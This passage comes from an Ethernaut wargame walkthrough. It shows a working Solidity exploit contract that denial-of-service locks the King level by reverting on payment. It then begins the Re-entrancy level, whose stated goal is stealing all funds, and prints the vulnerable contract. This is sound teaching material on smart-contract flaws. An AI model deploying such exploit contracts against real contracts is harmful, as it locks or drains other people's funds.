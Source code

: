 Calling address can be a contract. The `King` contract does not use any pattern to avoid it from being a victim of a DOS attack. If we create a contract with ether equivalent of `prize` and send the same to `King`, it will become a new king. Then all we need is a payable fallback function that reverts whenever triggered since `King` will transfer the amount to this contract whenever someone tries to become a new king.
##### Exploit
```
contract Attack_King {
  address public targetContractAddress;

  constructor(address _targetContractAddress) payable {
    targetContractAddress = _targetContractAddress;
    (bool success,) = targetContractAddress.call{value: address(this).balance}("");
    require(success, "call failed");
  }

  fallback() external payable {
    revert();
  }

  receive() external payable {
    revert();
  }
}
```
1. Deploy the above contract with the `king` contract address as the constructor argument.\
And we are done. It can no longer change the king despite the value of the ether sent.
##### Takeaway from Ethernaut
Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that happened — a real hack or a real bug.\
In this case, see [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).

# 10. Re-entrancy
### Challenge
- The goal of this level is to steal all the funds from the contract.
### Purpose
Understanding Re-entrancy attack.
### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
```